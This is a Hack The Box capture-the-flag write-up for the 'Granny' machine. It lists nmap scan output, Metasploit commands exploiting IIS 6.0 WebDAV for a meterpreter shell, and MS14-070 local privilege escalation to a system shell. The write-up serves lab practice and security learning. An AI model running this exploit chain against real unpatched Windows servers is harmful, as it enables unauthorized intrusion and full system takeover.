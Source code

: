 # Granny

IP: `10.10.10.15`

## Nmap scan

```sh
nmap -A -T5 -p- 10.10.10.15
```

results

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-12 09:38 EDT
Nmap scan report for 10.10.10.15
Host is up (0.22s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Server Date: Sun, 12 Apr 2020 13:42:05 GMT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.69 seconds
```

## Port analysis

Going to port 80, we see the same error message that was seen for grandpa. So let's also try the same method as we did for the Grandpa box.


## Metasploit WebDAV scan

```sh
msfconsole
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS 10.10.10.15
run
```

meterpreter shell spawned here. Now to escelate privelage just like grandpa

### Method 1

Getting system info:

```
Host Name:                 GRANNY
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 1 Hours, 6 Minutes, 58 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 756 MB
Page File: Max Size:       2,470 MB 
Page File: Available:      2,291 MB
Page File: In Use:         179 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A
```

copying the info to `systeminfo.txt` and running

```sh
windows-exploit-suggester.py -d 2020-04-10-mssb.xls -i systeminfo.txt
```

### Method 2
Another way of searching for exploits in a meterpreter session is by using the suggester of metasploit

```sh
background # background the meterpreter session
search suggester
use multi/recon/local_exploit_suggester
set session <SESSION ID>
run
```

# Priv esc
Next, migrating to this process for a more stable meterpreter session:

```sh
2428  592   davcdata.exe
```

Now running the same exploit as grandpa MS-14-070

```sh
background # background the meterpreter session
# Using the rapid7 doc for MS14-070 exploit
use exploit/windows/local/ms14_070_tcpip_ioctl
set SESSION <meterpreter session id>
exploit
```

and we have our root shell.

